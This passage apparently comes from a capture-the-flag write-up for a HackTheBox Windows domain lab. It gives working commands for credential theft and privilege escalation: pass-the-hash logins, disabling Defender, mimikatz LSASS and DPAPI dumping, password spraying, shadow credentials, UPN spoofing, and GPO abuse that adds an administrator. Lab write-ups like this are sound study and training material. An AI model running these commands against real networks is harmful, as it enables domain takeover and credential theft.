As a result of the above command, an administrator ticket for CIFS(Common Internet File System) will be created for access to WEB-01.

With an administrator ticket in hand, my next move would be to use secretsdump to get the user hashes. However, this operation is blocked for WEB-01.
It is most likely because it's trying to reach the NTDS.DIT file. While an administrator usually doesn't have issues with this file, there may be some special policies in place that block access to this file.
I can bypass this by targeting the SAM hive instead. Netexec has a flag that allows for remote dumping of SAM(Security Account Manager) hashes.
Administrator | 88d84ec08dad123eb04a060a74053f21
I'll try to remote into WEB-01 as the administrator with his hash.
evil-winrm -i 172.16.20.2 -u Administrator -H 88d84ec08dad123eb04a060a74053f21
Root flag
The first thing I wanted to do after getting admin access to the box was dumping credentials with mimikatz. I disabled defender preemptively using my administrative rights.
Set-MpPreference -DisableRealtimeMonitoring $true - Disables Windows defender
.\mimikatz.exe 'sekurlsa::logonpasswords /patch' exit | Dumps logon credentials from LSASS

This uncovered the password of WEB-01$, but it's not useful as I already have its hash.
Discovering DPAPI masterkeys
In the admin's AppData/Roaming/Microsoft/Protect/SID/, I found 3 masterkey files.

And in the AppData/Local/Microsoft/Credentials, I found a single credential blob.
My usual DPAPI decryption method involved using impacket-dpapi, and locally decrypting the blob. Here, this won't be possible, because this method requires the user's password, which I don't have.
Since mimikatz is running in the administrator's context, I should be able to use it and decrypt masterkey file.
.\mimikatz.exe 'dpapi::masterkey /in:6037d071-cac5-481e-9e08-c4296c0a7ff7 /sid:S-1-5-21-2988385993-1727309239-2541228647-500 /hash:88d84ec08dad123eb04a060a74053f21 /patch' exit
The unprotect operation fails, even though a user hash was supplied. It could be because mimikatz expects a different type of hash(for example, SHA1).
Netexec comes to the rescue again here. Using its --dpapi flag, I was able to remotely extract the masterkeys, and get some secrets.
Administrator | But_Lying_Aid9!
And with this password, I can now decrypt the other masterkeys, and finally get the contents of that blob.
attrib -H -S | Removes the hidden attribute from the specified file.

Decrypting the masterkeys and the credential blob
I will use impacket-dpapi to work with the keys.
impacket-dpapi masterkey -file <key> -sid S-1-5-21-2988385993-1727309239-2541228647-500 -password 'But_Lying_Aid9!' -dc-ip 172.16.20.1

2 out of the 3 masterkeys have been decrypted. I'll test those 2 against the credential blob.
impacket-dpapi credential -file 32B2774DF751FF7E28E78AE75C237A1E -key <decrypted key>
? | Pack_Beneath_Solid9!
Password spraying
I discovered a new password, but no associated user. I'll perform password spraying against the domain with the 2 new passwords to check whether any of the users match a password.
awk -F ' ' '{ print $5 }' userlist
nxc smb 172.16.20.1 -u userlist1 -p passwordlist --continue-on-success
john.w | Pack_Beneath_Solid9!
John.W to Angela.W
Using bloodyAD, I checked John's permissions within the domain.
bloodyAD -d darkcorp.htb -u john.w -p 'Pack_Beneath_Solid9!' --dc-ip 172.16.20.1 get writable --detail

John can write into every attribute of Angela.W. In bloodhound, this would be visible as a GenericWrite edge.
Since I know that ADCS is on the box, the quickest way to abuse it would be to use shadow credentials.
certipy-ad shadow auto -account angela.w -dc-ip 172.16.20.1 -u john.w -p 'Pack_Beneath_Solid9!'
angela.w | 957246c8137069bca672dc6aa0af7c7a
However, Angela herself doesn't have any useful permissions.
UPN Spoofing
Remembering that there were 2 accounts in the LinuxAdmins group, I began searching for a way to take advantage of a domain-joined Linux machine.
https://www.pentestpartners.com/security-blog/a-broken-marriage-abusing-mixed-vendor-kerberos-stacks/
And eventually found this article, which explains a difference in authentication methods between Linux and Windows domain computers.
The article explains this attack much better than I can, but in short, there is a difference in how users get validated:
Windows uses SSPI, and the information within the PAC structure, which allows it to accurately identify the correct user belonging to a specific ticket.
On the other hand, Unix systems use just GSSAPI, and look for the UPN to identify users. This is why it's vulnerable to UPN Spoofing.
This means that if I can set the UPN of angela.w to a SamAccountName of a different user and request an NT_ENTERPRISE ticket, the Linux machine will check the UPN first, find angela.w.adm, and map to the target user.
bloodyAD -d darkcorp.htb -u john.w -p 'Pack_Beneath_Solid9!' --dc-ip 172.16.20.1 set object -v angela.w.adm angela.w userPrincipalName
After updating Angela's UPN, I requested an NT_ENTERPRISE ticket with imacpetk-getTGT.
impacket-getTGT -hashes ':957246c8137069bca672dc6aa0af7c7a' -dc-ip 172.16.20.1 -principalType NT_ENTERPRISE darkcorp.htb/angela.w.adm
SSH auth with this ticket failed even after enabling GSSAPIAuth, so I decided to transfer the ccache file onto the Linux machine.
While I cannot use su with this ticket to change users, ksu exists for that very reason.
After exporting the ticket, I authenticated successfully.
Investigating the System Security Services Daemon files(SSSD and SSS)
Since this is an AD-joined Linux machine, I decided to take a look at the files and directories related to SSSD.

I can see a few .ldb files in the /var/lib/sss/db directory. SSSD files can sometimes contain cached domain credentials, so these files seem like a prime target to check right now.
strings * | grep '\$'
I grepped for a dollar sign, because it is a stable component of most hashes encountered on Linux environments.

A single SHA5125 hash was found. I'll try cracking it with hashcat.
? | !QAZzaq1
I have an idea as to whose password this might be, but to confirm it, I'll spray it against my user list from earlier.
nxc smb 172.16.20.1 -u userlist1 -p '!QAZzaq1' --continue-on-success
taylor.b.adm | !QAZzaq1
Remote Group Policy Object abuse
As I remember from earlier, taylor.b.adm is in the gpo_manager group.
Taylor has FullControl over a certain GPO. To list all the GPOs existing on the domain, I'll use ldapsearch

By comparing the GUIDs, I can tell that Taylor has FullControl over the SecurityUpdates policy. Windows Defender is most likely on, so I won't bother with trying to upload tools like SharpGPOAbuse.
After a short search, I found a tool that can abuse GPOs remotely, without uploading anything to the DC itself.
https://github.com/Hackndo/pyGPOAbuse
Since I know the GPO and its ID, I have everything necessary to make use of this tool.
When not specifying a command to execute, the tool's base usage involves creating a local admin user with credentials of john:H4x00r123..
python pygpoabuse.py darkcorp.htb/taylor.b.adm:'!QAZzaq1' -gpo-id "652CAE9A-4BB7-49F2-9E52-3361F33CE786"
To confirm that the user has been successfully created, I'll run Get-ADUser against John.
This confirms that John exists, and his MemberOf being {CN=Administrators,CN=Builtin,DC=darkcorp,DC=htb} confirms that I've successfully added an administrator account.
Now all that's left is to remote into the DC as the local administrator. If, for some reason, John cannot remote, I'd just add him to the remote management users group.

Rooted!!!!!!